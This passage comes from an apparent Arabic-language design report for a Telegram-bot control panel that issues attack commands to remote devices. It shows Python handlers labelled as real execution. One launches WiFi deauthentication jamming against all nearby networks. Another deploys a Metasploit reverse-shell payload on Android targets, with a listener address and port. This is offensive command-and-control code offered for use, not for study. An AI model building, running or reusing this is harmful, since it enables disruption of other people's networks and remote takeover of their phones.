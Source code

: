 ### ✅ **ب. الأوامر المتقدمة - تنفيذ فعلي:**

#### 3. **أوامر الهجمات المتقدمة:**
```python
# هجوم WiFi - تنفيذ فعلي
def handle_attack_callback(call):
    if call.data == "wifi_deauth":
        device_id = get_selected_device(call.from_user.id)
        if device_id:
            result = command_executor.send_command(device_id, "wifi_jamming", {
                "attack_type": "deauth",
                "target_ssid": "all",
                "duration": 60,
                "interface": "wlan0"
            })
            
            if result.get('success'):
                networks_attacked = result.get('data', {}).get('networks_attacked', 0)
                bot.answer_callback_query(call.id, f"✅ تم هجوم {networks_attacked} شبكة WiFi")
            else:
                bot.answer_callback_query(call.id, f"❌ فشل في هجوم WiFi: {result.get('error')}")

# هجوم Metasploit - تنفيذ فعلي
elif call.data == "mobile_metasploit":
    device_id = get_selected_device(call.from_user.id)
    if device_id:
        result = command_executor.send_command(device_id, "mobile_attack", {
            "attack_type": "metasploit",
            "target_os": "android",
            "payload_type": "reverse_shell",
            "lhost": "192.168.1.100",
            "lport": 4444
        })
        
        if result.get('success'):
            payload_installed = result.get('data', {}).get('payload_installed', False)
            if payload_installed:
                bot.answer_callback_query(call.id, "✅ تم تثبيت Payload بنجاح")
            else:
                bot.answer_callback_query(call.id, "⚠️ تم بدء الهجوم ولكن لم يتم تثبيت Payload")
        else:
            bot.answer_callback_query(call.id, f"❌ فشل في هجوم Metasploit: {result.get('error')}")
```

---

## 3. تحليل الربط مع الوحدات المتخصصة
### 3. Analysis of Specialized Module Integration

### ✅ **أ. ربط مع وحدات الهجوم المتخصصة:**
